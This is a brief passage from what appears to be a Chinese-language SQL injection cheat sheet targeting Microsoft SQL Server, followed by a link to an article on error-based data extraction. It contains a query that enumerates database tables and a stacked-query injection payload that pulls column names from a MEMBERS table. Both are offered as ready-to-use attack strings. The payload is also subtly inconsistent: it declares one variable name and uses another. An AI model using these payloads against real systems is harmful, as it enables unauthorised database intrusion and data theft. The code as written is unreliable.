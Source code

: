     `Select p.name from (SELECT (SELECT COUNT(i.id) AS rid FROM sysobjects i WHERE xtype='U' and i.id<=o.id) AS x, name from sysobjects o WHERE o.xtype = 'U') as p where p.x=21`
    

### 快速的脱掉基于错误(Error Based)的SQL Server注入(S)

`';BEGIN DECLARE @rt varchar(8000) SET @rd=':' SELECT @rd=@rd+' '+name FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'MEMBERS') AND name>@rd SELECT @rd AS rd into TMP_SYS_TMP end;--`

**详情请参考：[Fast way to extract data from Error Based SQL Injections](http://ferruh.mavituna.com/makale/fast-way-to-extract-data-from-error-based-sql-injections/)**